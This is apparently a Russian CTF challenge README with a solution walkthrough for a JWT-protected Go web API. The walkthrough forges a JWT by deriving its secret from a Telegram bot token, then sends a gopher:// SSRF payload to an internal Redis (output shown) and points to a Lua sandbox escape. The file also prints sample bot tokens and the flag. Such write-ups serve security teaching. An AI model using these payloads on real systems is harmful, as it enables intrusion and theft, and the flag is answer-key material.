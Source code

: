 # requester | hard | web

## Информация

> Мы тут API'шку нашли, а что дальше делать не знаем(((((999  
> Флаг в ./flag.txt  
> http://<ip>:10010

## Деплой

```sh
cd deploy
docker-compose up --build -d
```

## Выдать участинкам

Архив из директории [public/](public/) и текст и раздела "Информация".

## Описание

Веб апи, для доступа нужен подписанный jwt токен. Токен получить может только конкретный юзер ТГ (админ).  
По коду видно, что jwt подписывается первыми 12-ти символами тг бота, т.е. секрет можно сбрутить. 
Подбираем секрет, генерим валидный jwt токен, получаем доступ к ручке /ping. В ручке curl с не запрещенным gopher:// и redis
в котором кешируются ответы. Через gopher:// можем напрямую дергать redis, видим что redis v5.0.7, гуглим уязвимости
для redis v5.0.7, находим escape lua sandbox, эксплойтим, читаем ./flag.txt

## Решение

Дергаем / апишики, видим ответ:
```json
{"message":"Unauthorized, receive auth token in https://t.me/secureadmin2025_bot"}
```

Заходим в [бота](https://t.me/secureadmin2025_bot), там тишина.

Идём в код. По коду видим что jwtMiddleware пускает дальше только с валидными jwt в хидере Authorization. 
```go
if err != nil || !token.Valid {
    return echo.NewHTTPError(http.StatusUnauthorized, "Unauthorized, receive auth token in "+config.BotLink)
}
return next(c)
```
При этом айди юзера в токене никак не проверяется.  
Смотрим чем jwt подписывается и видим прикол:
```go
func init() {
	cfg := GetConfig()
	if len(cfg.TgBotToken) < 12 {
		panic("tg bot token too short")
	}

	SetJwtSecret(cfg.TgBotToken[:12])
}
```
Токен подписывается первыми 12-ю символами из бота токена. В принципе, можем попробовать сбрутить 12 символов, а можем
чуть подумать, посмотреть как выглядят токены тг ботов и узнать, что выглядят они так:
```
7894909700:AAE9gUK2TBNhm5jSjEQiDreuoxjIhv4CvjA - токен #1
7894909700:AAHyxTH8DSUp31PS-tuCNhbfQQszo25AH7Q - токен #2
7894909700:AAElWqPcvYUZkEYsIQ9zHN5Lpd2nhykc2Z8 - токен #3
```

Видим интересное, первые 10 символов это всегда какие-то числа, потом двоеточие и дальше строка рандомных символов.
Чуть пораскинув мозгами, погугли, подергав API тг, понимает что это айдишник бота. Узнаём айдишник [бота](https://t.me/secureadmin2025_bot),
можно через Client API Telegram, можно просто скачать [kotatogram](https://github.com/kotatogram/kotatogram-desktop).  
Узнаём айдишник:  
![pic1.png](solve/pic1.png)

Знаем что после айди идет ":", значит осталось подобрать один рандомный символ, быстро брутим, узнаем что это "A".
Подписываем токен, получаем доступ к ручке `/pinger`.

Дальше думаем, что можно сделать с curl'ом.  
Видим запрещенные протоколы:
```go
var (
	disallowedProtocols = []string{
		"DICT", "FILE", "FTP", "FTPS", "IMAP", "IMAPS", "LDAP", "LDAPS", "MQTT", "POP3",
		"POP3S", "RTMP", "RTMPS", "RTSP", "SCP", "SFTP", "SMB", "SMBS", "SMTP", "SMTPS", "TELNET", "TFTP", "WS", "WSS",
	}
)
```
Гуглим какие протоколы вообще есть, узнаём что в сервисе забыли закрыть `gopher://`. А ещё видим что у сервиса есть redis
в котором он кеширует ответы на запросы. Гуглим, гуглим, узнаем что redis можно дергать по gopher://.  
Составляем запрос:
```json
{
    "url": "gopher://127.0.0.1:6379/_%0D%0Aauth%20redis%0D%0Ainfo%0D%0Aquit%0D%0A",
    // пароль достали из кода
}
```
Получаем ответ:
```json
{
    "result": "+OK\r\n$3247\r\n# Server\r\nredis_version:5.0.7\r\nredis_git_sha1:00000000\r\nredis_git_dirty:0\r\nredis_build_id:636cde3b5c7a3923\r\nredis_mode:standalone\r\nos:Linux 6.1.0-30-amd64 x86_64\r\narch_bits:64\r\nmultiplexing_api:epoll\r\natomicvar_api:atomic-builtin\r\ngcc_version:9.2.1\r\nprocess_id:9\r\nrun_id:e0343bbeae0b8cc00d05df1dddee31eeac115fa3\r\ntcp_port:6379\r\nuptime_in_seconds:2879\r\nuptime_in_days:0\r\nhz:10\r\nconfigured_hz:10\r\nlru_clock:14877214\r\nexecutable:/app/redis-server\r\nconfig_file:/etc/redis/redis.conf\r\n\r\n# Clients\r\nconnected_clients:2\r\nclient_recent_max_input_buffer:0\r\nclient_recent_max_output_buffer:0\r\nblocked_clients:0\r\n\r\n# Memory\r\nused_memory:914704\r\nused_memory_human:893.27K\r\nused_memory_rss:10006528\r\nused_memory_rss_human:9.54M\r\nused_memory_peak:914704\r\nused_memory_peak_human:893.27K\r\nused_memory_peak_perc:115.80%\r\nused_memory_overhead:889260\r\nused_memory_startup:789872\r\nused_memory_dataset:25444\r\nused_memory_dataset_perc:20.38%\r\nallocator_allocated:1118400\r\nallocator_active:1318912\r\nallocator_resident:4247552\r\ntotal_system_memory:16599011328\r\ntotal_system_memory_human:15.46G\r\nused_memory_lua:41984\r\nused_memory_lua_human:41.00K\r\nused_memory_scripts:0\r\nused_memory_scripts_human:0B\r\nnumber_of_cached_scripts:0\r\nmaxmemory:0\r\nmaxmemory_human:0B\r\nmaxmemory_policy:noeviction\r\nallocator_frag_ratio:1.18\r\nallocator_frag_bytes:200512\r\nallocator_rss_ratio:3.22\r\nallocator_rss_bytes:2928640\r\nrss_overhead_ratio:2.36\r\nrss_overhead_bytes:5758976\r\nmem_fragmentation_ratio:12.67\r\nmem_fragmentation_bytes:9216656\r\nmem_not_counted_for_evict:0\r\nmem_replication_backlog:0\r\nmem_clients_slaves:0\r\nmem_clients_normal:99388\r\nmem_aof_buffer:0\r\nmem_allocator:jemalloc-5.2.1\r\nactive_defrag_running:0\r\nlazyfree_pending_objects:0\r\n\r\n# Persistence\r\nloading:0\r\nrdb_changes_since_last_save:0\r\nrdb_bgsave_in_progress:0\r\nrdb_last_save_time:1742927583\r\nrdb_last_bgsave_status:ok\r\nrdb_last_bgsave_time_sec:-1\r\nrdb_current_bgsave_time_sec:-1\r\nrdb_last_cow_size:0\r\naof_enabled:0\r\naof_rewrite_in_progress:0\r\naof_rewrite_scheduled:0\r\naof_last_rewrite_time_sec:-1\r\naof_current_rewrite_time_sec:-1\r\naof_last_bgrewrite_status:ok\r\naof_last_write_status:ok\r\naof_last_cow_size:0\r\n\r\n# Stats\r\ntotal_connections_received:2\r\ntotal_commands_processed:3\r\ninstantaneous_ops_per_sec:0\r\ntotal_net_input_bytes:148\r\ntotal_net_output_bytes:10\r\ninstantaneous_input_kbps:0.00\r\ninstantaneous_output_kbps:0.00\r\nrejected_connections:0\r\nsync_full:0\r\nsync_partial_ok:0\r\nsync_partial_err:0\r\nexpired_keys:0\r\nexpired_stale_perc:0.00\r\nexpired_time_cap_reached_count:0\r\nevicted_keys:0\r\nkeyspace_hits:0\r\nkeyspace_misses:1\r\npubsub_channels:0\r\npubsub_patterns:0\r\nlatest_fork_usec:0\r\nmigrate_cached_sockets:0\r\nslave_expires_tracked_keys:0\r\nactive_defrag_hits:0\r\nactive_defrag_misses:0\r\nactive_defrag_key_hits:0\r\nactive_defrag_key_misses:0\r\n\r\n# Replication\r\nrole:master\r\nconnected_slaves:0\r\nmaster_replid:f364998c7fba447924663aab2025d7be56f88671\r\nmaster_replid2:0000000000000000000000000000000000000000\r\nmaster_repl_offset:0\r\nsecond_repl_offset:-1\r\nrepl_backlog_active:0\r\nrepl_backlog_size:1048576\r\nrepl_backlog_first_byte_offset:0\r\nrepl_backlog_histlen:0\r\n\r\n# CPU\r\nused_cpu_sys:1.947593\r\nused_cpu_user:2.093558\r\nused_cpu_sys_children:0.000000\r\nused_cpu_user_children:0.000000\r\n\r\n# Cluster\r\ncluster_enabled:0\r\n\r\n# Keyspace\r\n\r\n+OK\r\n"
}
```
Видим Redis v5.0.7. Гуглим уязвимости, находим [lua escape sandbox](https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup), эксплойтим, получаем флаг.  
Пример эксплойта с брутом jwt секрета и эксплуатацией escape lua sandbox:  
[Эксплоит](solve/solve.py)

## Флаг

`miactf{nev3r_trus7_cur1_bbbb6}`

